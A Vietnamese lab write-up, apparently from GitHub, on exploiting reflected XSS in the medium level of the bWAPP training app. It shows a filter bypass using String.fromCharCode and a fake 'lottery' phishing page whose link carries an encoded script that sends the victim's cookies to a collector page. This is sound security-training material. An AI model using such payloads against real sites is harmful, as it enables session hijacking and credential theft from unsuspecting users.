 ### Dò XSS
Thực hiện như case Low, ta thấy khi nhập js vào ô bất kì đều không có respond.

![image](https://github.com/user-attachments/assets/50fcf1b2-09d2-4e96-9d61-ab86e2ea66a2)

Kiểm tra mã nguồn ta thấy vẫn có dòng <script>alert(\"thiep\")</script>

![image](https://github.com/user-attachments/assets/ae6beda1-3c26-4dc6-adce-732b2454f0f6)

Có thể do cơ chế lọc chữ của web, ta thử bằng ascii encode:
```javascript
<script>alert(String.fromCharCode(88, 83, 83))</script>
```
![image](https://github.com/user-attachments/assets/e4fcecf9-c6c4-4fb4-ba03-1c339a405b2b)

Vậy là xác định trang web có dính XSS

### Khai thác

Sử dụng lại file get.php và index.php case Low.

file index.php sửa lại như sau
```java script
<html>
<head>
<title>Lottery hihi</title>
</head>
<body>
	<h1 align="center">CONGRATULATIONS!!!</h1>
	<h1 align="center">YOU WON!!!</h1>
	Click this <a href="http://localhost/bwapp/xss_get.php?firstname=<script>window.open(String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 108, 111, 99, 97, 108, 104, 111, 115, 116, 47, 103, 101, 116, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61, 34, 43, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101))</script>&lastname=a&form=submit">link</a> to see your prize
</body>
</html>
```
Còn lại làm tương tự.
